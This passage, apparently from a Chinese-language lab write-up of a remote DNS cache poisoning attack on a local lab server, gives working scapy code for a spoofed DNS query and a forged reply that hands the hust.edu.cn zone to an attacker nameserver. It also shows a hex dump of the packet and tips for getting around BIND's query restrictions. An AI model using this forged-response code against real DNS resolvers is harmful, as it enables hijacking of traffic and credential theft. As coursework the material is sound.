 ```python
	f.write(bytes(pkt))
```

- 源`IP`可取任意地址，但由于`BIND9`默认只响应来自本地的`DNS`请求，若请求来自其他网络，则请求会被服务器拒绝（见`2.4.1-来自其他网络的请求将被拒绝.pcapng`）。因此可在目标`DNS`服务的配置文件`/etc/bind/named.conf.options`中添加`allow-query { any; };`以使得该`DNS`服务器响应所有请求；或者将伪造`DNS`包的源地址设置为与`DNS`服务器在同一个网络。本程序中采用后者，将源地址设置为与`DNS`服务器在同一网段的`172.18.0.27`。为了防止`IP`因频繁请求被屏蔽，可在`C`代码中做出更改，此处简化处理，使用了固定的源`IP`。

![2.4.1.来自其他网络的请求被拒绝](https://raw.githubusercontent.com/BIIIANG/pic/main/202205040148500.png)

- 目标`IP`即为目标`DNS`服务器的`IP 172.18.0.3`。
- 源端口可取任意端口，此处取`11803`。同样，为了防止某个端口因频繁请求被屏蔽，可在`C`代码中做出更改，此处简化处理，使用了固定的源端口。
- 目的端口即为`DNS`服务所处的`53`号端口。
- 请求域名：此处域名的前`5`位仅用作占位符，在`C`代码中会进行相应的更改，将其替换成随机的字符串，以达成多次攻击的目的。
- 根据以上信息构造`DNS`请求报文，并将其完整报文保存到`dns_request.bin`文件中，留待`C`程序使用。
- 为了在`C`程序中对请求的域名做出更改，需要得到需要修改的部分的偏移位置，因此使用`xxd`或`Bless Hex Editor`查看`dns_request.bin`如下，可知域名起始位置相对于文件头的偏移为十进制的`41`：

```shell
[05/04/22]seed@VM:~/.../2022.04.15.DNS$ ./generate_dns_request.py 
[05/04/22]seed@VM:~/.../2022.04.15.DNS$ xxd -c 10 dns_request.bin 
00000000: 4500 003f 0001 0000 4011  E..?....@.
0000000a: 0000 ac12 001b ac12 0003  ..........
00000014: 2e1b 0035 002b 0000 aaaa  ...5.+....
0000001e: 0100 0001 0000 0000 0000  ..........
00000028: 0562 6961 6e67 0468 7573  .biang.hus
00000032: 7403 6564 7502 636e 0000  t.edu.cn..
0000003c: 0100 01                   ...
```

### 2.4.2 伪造`DNS`响应包

- 使用`scapy`构造`DNS`响应包的模板`generate_dns_reply.py`，该响应包模板告知目标`DNS`服务器`172.18.0.3`域名`biang.hust.edu.cn`对应的`IP`为`11.111.111.111`，并在其中添加了一条授权条目，将对域`hust.edu.cn`中的`DNS`请求交给攻击者的域名服务器`ns.xubiang.net`进行处理：


```python
#!/usr/bin/python3
from scapy.all import *

# To be modified: Qdsec[qname], Anssec[rrname],
#                 dns[id], ip[src]

dst_pt = 33333					# DNS Server
src_pt = 53						# Disguised as DNS server
dst_ip = '172.18.0.3'			# DNS Server
src_ip = '201.91.180.3'			# Be modified by C code
zone   = 'hust.edu.cn'			# The Zone to Attack
domain = 'biang.hust.edu.cn'	# Be modified by C code

# Construct the DNS header and payload
Qdsec  = DNSQR(qname  = domain)
Anssec = DNSRR(rrname = domain, type ='A', 
               rdata  = '11.111.111.111', ttl=166666)
NSsec  = DNSRR(rrname = zone, type='NS', 
               rdata  = 'ns.xubiang.net', ttl=166666)
dns = DNS(id=0xAAAA, aa=1, rd=0, qr=1, 
          qdcount=1, qd=Qdsec, 
          ancount=1, an=Anssec,
          nscount=1, ns=NSsec)

# Construct the IP, UDP headers, and the entire packet
ip = IP(dst=dst_ip, src=src_ip, chksum=0)
udp = UDP(dport=dst_pt, sport=src_pt, chksum=0)
pkt = ip/udp/dns

```